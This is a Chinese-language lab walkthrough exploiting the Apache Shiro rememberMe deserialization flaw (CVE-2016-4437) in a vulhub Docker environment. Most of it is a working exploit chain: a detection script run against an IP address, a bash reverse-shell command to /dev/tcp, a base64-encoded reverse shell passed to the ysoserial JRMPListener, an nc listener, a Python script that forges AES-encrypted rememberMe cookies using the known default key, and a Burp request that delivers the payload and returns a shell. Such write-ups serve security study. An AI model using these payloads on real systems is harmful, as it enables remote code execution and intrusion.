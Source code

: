 ```yaml
---
description: >-
  Shiro是一个用于Java应用程序的开源安全框架，用于身份认证、授权和会话管理等功能。然而，Shiro在过去存在着一个严重的安全漏洞，即Shiro反序列化漏洞（Shiro
  Deserializati
---
```


# CVE-2016-4437

### 漏洞原理：

Apache Shiro框架提供了记住我（RememberMe）的功能，关闭了浏览器下次再打开时还是能记住你是谁，下次访问时无需再登录即可访问。\
Shiro对rememberMe的cookie做了加密处理，shiro在CookieRememberMeManaer类中将cookie中rememberMe字段内容分别进行序列化、AES加密、Base64编码操作。\
在识别身份的时候，需要对Cookie里的rememberMe字段解密。根据加密的顺序，不难知道解密的顺序为：

* 获取rememberMe cookie
* base64 decode
* 解密AES（加密密钥硬编码）
* 反序列化（未作过滤处理）\
  但是，AES加密的密钥Key被硬编码在代码里，意味着每个人通过源代码都能拿到AES加密的密钥。因此，攻击者构造一个恶意的对象，并且对其序列化，AES加密，base64编码后，作为cookie的rememberMe字段发送。Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞

### CVE-2016-4437环境搭建：

我这里是用docker部署的环境

{% embed url="https://github.com/vulhub/vulhub" %}

下载好以后cd想要搭建的漏洞环境的文件夹中，执行以下命令

```
docker-compose up -d
```

攻击机环境准备

这里用到了一个常用的Java反序列化漏洞利用工具ysoserial，下面是下载地址

{% embed url="https://github.com/frohoff/ysoserial.git" %}

下载好以后cd到ysoserial包中，构建环境，完成以后就可以使用ysoserial了

{% code lineNumbers="true" %}
```
apt-get update
apt-get install maven
cd ysoserial
mvn package -DskipTests
```
{% endcode %}

下载ysoserial的java包

{% embed url="https://github.com/frohoff/ysoserial/releases/tag/v0.0.6" %}

```
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

### 漏洞探测：

访问目地址，用户名密码这里随便输了，勾选remember me

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

使用Shiro\_exploit用于检测与利用Apache Shiro反序列化漏洞脚本

下载该poc

{% embed url="https://github.com/insightglacier/Shiro_exploit" %}

需要把这一行的java改成/root/Desktop/test/jdk1.8.0\_202/bin/java，也就是需要指定java版本，不然会出现使用不了的问题

```
 popen = subprocess.Popen(['/root/Desktop/test/jdk1.8.0_202/bin/java','-jar',fp,gadget,command],
```

```
┌──(root㉿kali)-[~/Desktop/test/Shiro_exploit]
└─# python2 shiro_exploit.py -u http://xx.xx.xx.7:8080/doLogin
checking url:http://43.143.138.7:8080/doLogin
try CipherKey :kPH+bIxk5D2deZiIxcaaaA==
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
generator payload done.
send payload ok.
checking.....

vulnerable:True url:http://43.143.138.7:8080/doLogin    CipherKey:kPH+bIxk5D2deZiIxcaaaA==
```

运行脚本发现存在漏洞key为：kPH+bIxk5D2deZiIxcaaaA==

生产反弹shell的payload，这里有一个生产反弹shell的地址

{% embed url="https://www.revshells.com/" %}

```
bash -i >& /dev/tcp/xx.xx.xx.xx/9992 0>&1
```

vps上执行命令，通过 ysoserial中的JRMP监听模块,这里监听了9991端口，我这里的java版本用的是1.8，这里面有一段base64编码是上面反弹shell的base64编码，反弹shell的端口我这边监听9992端口

{% code lineNumbers="true" %}
```sh
./java -cp ../../ysoserial-all.jar ysoserial.exploit.JRMPListener 9995 CommonsBeanutils1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1NC4xMjkvOTk5MiAwPiYx}|{base64,-d}|{bash,-i}'
nc -lnvp 9992
```
{% endcode %}

payloads/JRMPClient 是结合 exploit/JRMPListener 使用的； JRMPListener是ysoserial 工具里的其中一个利用模块，作用是通过反序列化，开启当前主机的一个 JRMP Server ，具体的利用过程是，将反序列化数据 发送到 Server 中，然后Server中进行反序列化操作，并开启指定端口，然后在通过JRMPClient去发送攻击 payload； payloads/JRMPClient 生成的 payload 是发送给目标机器的，exploit/JRMPListener 是在自己服务器上使用的。

伪造cookie

```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['/root/Desktop/test/jdk1.8.0_202/bin/java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())
```

这个poc的java也需要指定修改下面这一行中的内容，其他包名如果不正确也需要修改

```
popen = subprocess.Popen(['/root/Desktop/test/jdk1.8.0_202/bin/java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
```

在执行这边脚本的时候发现一个问题，会出现一个报错

```
ImportError: No module named Crypto.Cipher  
```

这里需要用pip2安装pycryptodome

```
pip2 install pycryptodome
```

如果没有pip2 就需要先安装pip2

```
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py 
```

python shiro\_pc.py 攻击者IP:攻击者监听的java端口

```
┌──(root㉿kali)-[~/Desktop/test/Shiro_exploit]
└─# python2 shiro_poc.py xx.xx.xx.xx:9995 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rememberMe=i8DIfRooQ6yl7xNi7x/maIx9xXtpAlmU7Sqw6ghNmAY4NMzDTW3rL9GZYfATAngIQpE4U8rgxBjUZ0yq4MPO0XZtPq/lfXTMfl//6L/hzCOpE7M8S58JQCvoeh8/r5+PSrYEu/kSJpudHiweBvi0luJocHKnmqeDBCW24pOlCCm7SujEXeUKo/kmgcCXIbZqew3fm8DUrgxDmD2b+clJEsPTOLEBWPH7SZqRhtfKJJR8thtlL4dIcKBbbdrsctgpTn/54+u2cVzwbsukFLE7JDKiQb5gJZdoBQQyKv4nw2jX2KRbKVvlg+rSNvhqgr/XehW1lQqRYfiUTCV0hTotAa2JMRh8oxdr99T0pb8Gk+LEWnaNLfUL2yGU4DiKsX5s0/JOU5IPO6dPiaOuAilrpg==
```

将生成的的rememberMe信息放入到Burp请求包中，发送请求

<pre><code>POST /doLogin HTTP/1.1
Host: 192.168.254.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://192.168.254.130:8080
Connection: close
Referer: http://192.168.254.130:8080/login
Cookie: JSESSIONID=1A1D26C9046F377DF661ACE23A3FF433;<a data-footnote-ref href="#user-content-fn-1">rememberMe=m8TSOozYQRuapaXGMjgfAkXzPJplnG5DURFqQMVxMhKYvXYz7bpayoyu+rBBFk+NBGL3AZItTY6t6iyJdtmRlhw8Q2w1X9D+uoI4a4rRn85agBiZznpebK47J1raHa9kzVAFplA2f6Mkh3q3RQHmEgdnyY9GZPDo9sk0HDKhjc7RUzP/cBS+8mfHM4BXdNCctXY3v6By9PgvSlxQfkbgaU7SsDVZsFqNTKMDzT0b6fojbCIIb+lF+lCdHzGuyYi4K02gb4WKNLDe/e/l7K7wzS0hshe3+LlqRNi2tcKqdaq8DxRMo/Ndfsc78VhIBgEWDn6KSPXJ2N8XQny2YEREayo8+lL9vymimShJui6ueTdC7fTnbPorW4f/zW5YxdcyX7UjNq+juPpv/rX1MFrvXQ==</a>
Upgrade-Insecure-Requests: 1

username=root&#x26;password=123654&#x26;rememberme=remember-me
</code></pre>

这里可以看到开启的JRMP Server 服务有了响应

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

nc监听的端口返回了shell

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

[^1]: 
